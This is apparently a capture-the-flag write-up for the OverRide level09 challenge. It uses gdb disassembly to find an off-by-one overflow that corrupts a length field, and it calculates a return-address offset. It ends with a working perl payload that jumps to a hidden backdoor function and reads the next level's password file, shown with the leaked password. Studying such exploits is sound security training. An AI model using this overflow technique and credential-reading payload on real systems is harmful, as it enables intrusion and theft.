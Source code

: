 # level09

The program reads a username and a message from stdin. It also has a secret function `secret_backdoor`.

# Step 1. Mesure struct size
```assembly
level09@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble handle_msg" level09
Dump of assembler code for function handle_msg:
   0x00000000000008c0 <+0>:	push   rbp
   0x00000000000008c1 <+1>:	mov    rbp,rsp
   0x00000000000008c4 <+4>:	sub    rsp,0xc0
   0x00000000000008cb <+11>:	lea    rax,[rbp-0xc0]			; 192 bytes
   0x00000000000008d2 <+18>:	add    rax,0x8c					; 140 bytes
   0x00000000000008d8 <+24>:	mov    QWORD PTR [rax],0x0
   0x00000000000008df <+31>:	mov    QWORD PTR [rax+0x8],0x0
   0x00000000000008e7 <+39>:	mov    QWORD PTR [rax+0x10],0x0
   0x00000000000008ef <+47>:	mov    QWORD PTR [rax+0x18],0x0
   0x00000000000008f7 <+55>:	mov    QWORD PTR [rax+0x20],0x0 ; 40 bytes set to 0
   0x00000000000008ff <+63>:	mov    DWORD PTR [rbp-0xc],0x8c ; 8 bytes
[...]
```
```c
struct mystruct
{
	char fisrt[140];
	char second[40];
	int third;
};
```
According to the disassembly, the program defines a structure like this in the `handle_msg` function.

## Step 2. Find spot to overwrite
``` assemble
level09@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble set_username" level09
[...]
   0x0000000000000a3d <+112>:	mov    DWORD PTR [rbp-0x4],0x0	; initialize i = 0
   0x0000000000000a44 <+119>:	jmp    0xa6a <set_username+157>
   0x0000000000000a46 <+121>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000000a49 <+124>:	cdqe
   0x0000000000000a4b <+126>:	movzx  ecx,BYTE PTR [rbp+rax*1-0x90]
   0x0000000000000a53 <+134>:	mov    rdx,QWORD PTR [rbp-0x98]
   0x0000000000000a5a <+141>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000000a5d <+144>:	cdqe
   0x0000000000000a5f <+146>:	mov    BYTE PTR [rdx+rax*1+0x8c],cl
   0x0000000000000a66 <+153>:	add    DWORD PTR [rbp-0x4],0x1	; ++i
   0x0000000000000a6a <+157>:	cmp    DWORD PTR [rbp-0x4],0x28
   0x0000000000000a6e <+161>:	jg     0xa81 <set_username+180>	; if i > 40 break loop
   0x0000000000000a70 <+163>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000000a73 <+166>:	cdqe
   0x0000000000000a75 <+168>:	movzx  eax,BYTE PTR [rbp+rax*1-0x90]
   0x0000000000000a7d <+176>:	test   al,al
   0x0000000000000a7f <+178>:	jne    0xa46 <set_username+121>
```
```c
for (int i = 0; i <= 40; ++i)
	// copy buffer to struct
```
In the `set_username` function, the program copy 41 bytes from input buffer to second element of the structure whose size is 40 bytes. So 41st byte overwrite third element of the structure. Now we can overwrite third element who can control how many bytes we can copy to first element of the structure.

## Step 3. Calculate offset
```assembly
level09@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble handle_msg" level09
   0x00000000000008c0 <+0>:		push   rbp
   0x00000000000008c1 <+1>:		mov    rbp,rsp
   0x00000000000008c4 <+4>:		sub    rsp,0xc0
[...]
   0x0000000000000915 <+85>:	lea    rax,[rbp-0xc0]
   0x000000000000091c <+92>:	mov    rdi,rax
   0x000000000000091f <+95>:	call   0x932 <set_msg>
[...]
```
This is an 64-bit ELF, so every register is 8 bytes. Offset is `0xc0 + 0x8(rbp) = 0xc8(200)`

## Step 4. Find the address of secret backdoor function
```
level09@OverRide:~$ gdb -batch -ex "info functions secret_backdoor" level09
0x000000000000088c  secret_backdoor
```
```
level09@OverRide:~$ gdb -q level09
(gdb) break main
Breakpoint 1 at 0xaac
(gdb) run
Starting program: /home/users/level09/level09

Breakpoint 1, 0x0000555555554aac in main ()
(gdb) info functions secret_backdoor
0x000055555555488c  secret_backdoor
```
We thought that the binary was compiled with PIE(position-independent executable) option. The absolute address of function must be found at runtime.

## Final step. Build payload
```
level09@OverRide:~$ perl -e 'print "A"x40 . "\xff" . "\n" . "A"x200 . "\x8c\x48\x55\x55\x55\x55\x00\x00" . "\n" . "cat /home/users/end/.pass\n"' | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
